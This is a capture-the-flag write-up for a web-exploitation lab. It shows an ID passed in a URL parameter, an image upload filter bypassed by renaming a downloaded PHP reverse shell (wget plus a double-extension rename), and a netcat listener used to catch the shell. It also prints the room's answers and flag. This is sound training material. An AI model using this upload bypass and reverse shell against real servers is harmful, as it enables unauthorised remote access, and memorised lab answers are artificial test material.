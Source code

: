 ```yaml
---
description: Web Exploitation - GET ; Upload ; Reverse Shell
---
```


# The Elf Strikes Back!

## Web Exploitation

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

Open the site

![](../.gitbook/assets/image%20%2811%29.png)

> You have been assigned an ID number for your audit of the system: **`ODIzODI5MTNiYmYw`**
>
> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2825%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%2818%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2824%29.png)

![](../.gitbook/assets/image%20%2829%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%2821%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%2813%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%2819%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}

